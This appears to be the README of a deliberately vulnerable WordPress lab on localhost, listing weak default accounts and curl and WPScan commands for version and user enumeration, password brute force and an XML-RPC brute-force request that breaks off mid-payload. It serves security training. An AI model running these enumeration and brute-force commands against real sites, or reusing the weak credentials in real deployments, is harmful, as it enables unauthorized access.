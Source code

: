 # WordPress Vulnerable

## Overview
A deliberately vulnerable WordPress installation with common misconfigurations, outdated plugins, weak themes, and multiple attack vectors for learning WordPress security.

## Quick Start

**Access URL**: http://localhost:8087

**Admin Panel**: http://localhost:8087/wp-admin

**Default Credentials**:
- Admin: `admin` / `admin123`
- Editor: `editor` / `editor123`
- Author: `author` / `author123`
- Subscriber: `user` / `user123`

**Initial Setup**:
1. Access http://localhost:8087
2. If prompted, complete WordPress installation
3. Use the default admin credentials above

## Common WordPress Vulnerabilities

### 1. Outdated Core & Plugins
```bash
# Enumerate version
curl -s http://localhost:8087/ | grep -i "generator"
curl http://localhost:8087/readme.html

# WPScan enumeration
wpscan --url http://localhost:8087 --enumerate vp,vt,u
```

### 2. User Enumeration
```bash
# Via author pages
curl http://localhost:8087/?author=1
curl http://localhost:8087/?author=2

# Via REST API
curl http://localhost:8087/wp-json/wp/v2/users

# Via login error messages
curl -X POST http://localhost:8087/wp-login.php \
  -d "log=admin&pwd=wrongpass"
```

### 3. Weak Login Security
```bash
# Brute force with WPScan
wpscan --url http://localhost:8087 \
  --usernames admin,editor \
  --passwords passwords.txt \
  --max-threads 10

# XML-RPC brute force
curl -X POST http://localhost:8087/xmlrpc.php \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<methodCall>
```